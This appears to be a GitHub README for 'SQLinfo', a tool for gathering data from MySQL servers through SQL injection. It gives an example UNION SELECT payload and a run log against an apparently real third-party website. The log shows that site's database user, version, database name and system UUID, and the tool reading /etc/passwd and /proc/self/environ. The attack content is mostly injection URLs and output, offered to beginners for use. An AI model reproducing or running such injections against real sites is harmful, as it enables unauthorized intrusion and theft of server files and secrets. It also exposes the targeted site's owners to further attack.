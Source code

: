 # SQL_info
Information Gathering with SQL injection

 ..::==  This Tool Just For N00Bs like YoU =)  ==::.. 

 SQLinfo ver 0.1 
 - This Tool is for information gathering from SQL server targets(MySQL)
	
  _________________  .____    .__        _____       
 /   _____/\_____  \ |    |   |__| _____/ ____\____  
 \_____  \  /  / \  \|    |   |  |/    \   __\/  _ \ 
 /        \/   \_/.  \    |___|  |   |  \  | (  <_> )
/_______  /\_____\ \_/_______ \__|___|  /__|  \____/ 
        \/        \__>       \/       \/             

	===========
	----=# Info Gathering with SQLi     
	----=# Version: 0.1
	----=# Author : SajjadBnd (Biskoit Pedar)
	----=# Email  : blackwolf@post.com
	----=# Github : http://github.com/Blackwolf-Iran 
	===========


  Example Link : http://site.com/news.php?id=-1 union select 1,2,3,4-- -


[.] Insert Link > http://www.pksuite.it/mobile/it/news_page.php?id=-171%27+UNION+SELECT+1,2,3,4,5,6,7,8--+
[.] Insert vulnerable column > 3

-----------------[Scan Started]-----------------------

[*] SQLifo Started At > [Tuesday 09. January 2018 - 21:23:12]

[+][21:23:13] Checking Connection :  200 [ok]
[+][21:23:17] Fetching Username ...
[+][21:23:20] User/Host Name :   [u'mdagata@localhost'] 
[+][21:23:20] Fetching Version ...
[+][21:23:23] Version :   [u'5.1.73'] 
[+][21:23:23] Fetching Database Name ...
[+][21:23:25] DATABASE :   [u'pksuite_db'] 
[+][21:23:25] Fetching CONNECTION_ID ...
[+][21:23:27] CONNECTION_ID :   [u'64330'] 
[+][21:23:27] Fetching Hostname ...
[+][21:23:29] Hostname :   [] 
[+][21:23:29] Fetching Tmp_Dir ...
[+][21:23:32] Tmp Dir :   [] 
[+][21:23:32] Fetching DataDire ...
[+][21:23:34] data dir :   [] 
[+][21:23:34] Fetching Base Dir ...
[+][21:23:36] Base Dir :   [] 
[+][21:23:36] Fetching System UUID Key ...
[+][21:23:39] SYSTEM UUID Key :   [u'5ba9e3f0-f583-11e7-b8ff-000c291ea817'] 
[+][21:23:39] Fetching System User ...
[+][21:23:41] SYSTEM User :   [u'mdagata@localhost'] 
[+][21:23:41] Fetching Session User ...
[+][21:23:43] Sesion User :   [u'mdagata@localhost'] 
[+][21:23:43] Check if Symlink Enabled or Disabled ...
[+][21:23:45] Symlink :   [u'DISABLED'] 
[+][21:23:45] Checking SSL ...
[+][21:23:47] SSL :   [u'DISABLED'] 
[+][21:23:47] READING /etc/passwd ...
[+][21:23:50] File /etc/passwd :  Saved ! passwd.html - Check it =) 
[+][21:23:50] READING /proc/self/environ ...
[+][21:23:52] File proc/self/environ : Saved ! environ.html - Check it =) 


 [+] Good Bye !
 [+] SQLinfo [Tuesday 09. January 2018 - 21:23:52]

   Exiting ... !
#################################################################

@SajjadBND
Enjoy it ! =)
